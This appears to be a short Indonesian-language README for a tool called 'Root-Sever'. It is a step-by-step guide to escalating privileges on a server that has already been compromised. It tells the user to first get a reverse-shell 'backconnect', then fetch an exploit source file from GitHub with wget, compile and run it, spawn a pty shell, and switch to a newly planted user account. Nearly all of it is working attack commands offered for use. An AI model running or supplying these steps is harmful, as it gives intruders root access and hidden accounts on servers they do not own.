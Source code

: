 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
lalu compile file nya 
# comand nya
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
<br>
gcc -pthread root1.c -o g7 -lcrypt
<br>
chmod +x g7
<br>
./g7
<br>
lalu buat password baru dan tunggu proses selsai (agak lama)
<br>
id ganestseven
<br>
python -c 'import pty; pty.spawn("/bin/sh")'
<br>
su ganestseven
<br>
lalu id lagi
<br>


